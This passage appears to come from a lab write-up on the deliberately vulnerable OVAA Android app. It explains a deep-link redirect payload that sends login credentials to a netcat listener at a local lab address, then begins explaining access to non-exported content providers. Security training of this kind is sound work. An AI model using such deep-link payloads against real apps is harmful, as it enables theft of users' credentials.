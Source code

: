 Let’s open a netcat connection to listen to the interface to which the emulator is connected.

Payload: oversecured://ovaa/login?url=[http://192.168.56.1:9001](http://192.168.56.1:9001/)

Open a web browser and paste this link, it should redirect you to a login page, after few seconds, the netcat will receive a post request that contains the creds.

![A screenshot of a computer Description automatically generated](media/8ea5653045cf44b955ac8e653456bc57.png)

*Netcat listener on port 9001*

2\. Obtaining access to arbitrary non-exported content providers.

In this challenge, we have to access a content provider which is not exported but can be accessed if it has the flag Intent.FLAG_GRANT_READ_URI_PERMISSION set. This flag grants permission to perform read operations on the URL in the intent’s data.

In DeeplinkActivity class, we can notice that the application is using **startActivityForResult** method to open an activity. Sometimes we want to get a result back from an activity when it ends. For example, we may start an activity that lets the user pick a person from a list of contacts; when it ends, it returns the person that was selected. To do this, you call the **startActivityForResult(Intent, int)** version with a second integer parameter identifying the call. The result will come back through our **onActivityResult(int, int, Intent)** method.

![A computer code with text Description automatically generated](media/76447c63d4781bf7c43bb804255dc3ba.png)

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

![A screenshot of a computer code Description automatically generated](media/8dec08b6d8e0d72d0d4d2312e0f4753d.png)
